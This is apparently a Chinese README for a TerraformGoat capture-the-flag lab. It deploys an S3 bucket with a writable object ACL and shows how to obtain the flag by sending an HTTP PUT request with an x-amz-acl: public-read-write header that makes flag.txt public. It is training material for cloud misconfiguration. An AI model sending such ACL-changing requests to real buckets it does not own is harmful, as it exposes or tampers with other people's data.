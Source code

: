 # 描述

[English](./README.md) | 中文

这是一个可以帮你快速构建存储桶对象ACL可读写场景的脚本

## 部署环境

```bash
cd /TerraformGoat/aws/s3/object_acl_writable/
```

配置 AWS 访问凭证

```shell
aws configure
```

> 在 AWS 「控制台——》安全凭证」处可以设置并查看你的 `aws_access_key_id` 和 `aws_secret_access_key`

```bash
terraform init
terraform apply
```

输入yes之后，会自动的快速构建场景

## Get Flag

尝试访问 flag.txt

```shell
hxseclabnt4n4.s3.us-east-1.amazonaws.com/flag.txt
```

![img](../../../images/1653022475.png)

禁止访问，但是我们可以通过PUT方法，在请求头中添加`x-amz-acl`中添加`public-read`来修改这个对象的 acl

![img](../../../images/1653022598.png)

```http
PUT /flag.txt?acl HTTP/1.1
Host: hxsecxxxxx.s3.eu-west-1.amazonaws.com
x-amz-acl: public-read-write
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

随后再访问这个 flag.txt，成功获取flag

![img](../../../images/1653022699.png)

## 销毁挑战

```bash
terraform destroy
```

输入yes即可
